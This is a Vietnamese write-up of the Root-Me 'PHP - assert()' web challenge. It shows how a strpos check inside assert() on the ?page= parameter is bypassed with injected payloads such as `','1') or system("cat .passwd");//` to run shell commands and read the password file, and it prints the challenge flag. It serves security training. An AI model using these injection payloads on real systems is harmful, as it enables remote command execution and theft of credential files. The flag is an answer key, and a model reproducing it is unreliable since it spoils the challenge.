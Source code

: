 # Write up challenge PHP - assert()


Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)<br>
</br>

Truy cập challenge ta thấy có 3 trang Home | About | Contact và url thay đổi tương ứng khi nhập vào thông qua tham số `?page=` 

<img src="./img/1.png" height=350 alt="normal_acc_TRAbID"/> 

<img src="./img/2.png" height=350 alt="normal_acc_TRAbID"/> 

<img src="./img/3.png" height=350 alt="normal_acc_TRAbID"/> 

Yêu cầu là cần đọc được  file .passwd.

<img src="./img/t.png" alt="normal_acc_TRAbID"/>

<br><br>

Thử thêm trực tiếp vào url `http://challenge01.root-me.org/web-serveur/ch47/?page=/.passwd` thì nhận được kết quả file không tồn tại tại đường dẫn hiện tại 

<img src="./img/4.png"  alt="normal_acc_TRAbID"/> 




<br>

Thử back ra thư mục trước dùng payload `http://challenge01.root-me.org/web-serveur/ch47/?page=../.passwd`

<img src="./img/5.png" alt="normal_acc_TRAbID"/>
<br>
<div style = "page-break-after: always;"></div>
<br>

Ta nhận được Warning: assert(): Assertion "strpos('includes/../.passwd.php', '..') === false". Từ đó ta có thể thấy được:
- `../.passwd.php` là đường dẫn mà ta vừa nhập vào url được nối với chuỗi `includes/` và dùng hàm `strpos` để tìm có tồn tại chuỗi con `'..'` trong đó không. Rõ rầng đây là cơ chế detect attack filter `..`
- Sau đó một hàm assert() được sử dùng. Có thể thấy nếu `strpos` trả về false thì sau khi qua hàm assert sẽ in ra chuỗi `Detected hacking attempt!`. Code kiểm tra có thể hình dung: `assert("strpos('includes/$file.php', '..') === false") or die("Detected hacking attempt!");`

Ok, đã hiểu được cơ chế ta tiến hành thử bypass dùng payload sau: `http://challenge01.root-me.org/web-serveur/ch47/?page=','1') or system("ls -la");//` Dấu // để comment đoạn code phía sau.

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<br>Tuyệt vời! Đã thấy được file .passwrd. Tiến hành sửa command trong paylaij để đọc nội dung file .passwrd `http://challenge01.root-me.org/web-serveur/ch47/?page=','1') or system("cat .passwd");//`

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

Có được flag. Submit thành công 

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** x4Ss3rT1nglSn0ts4f3A7A1Lx

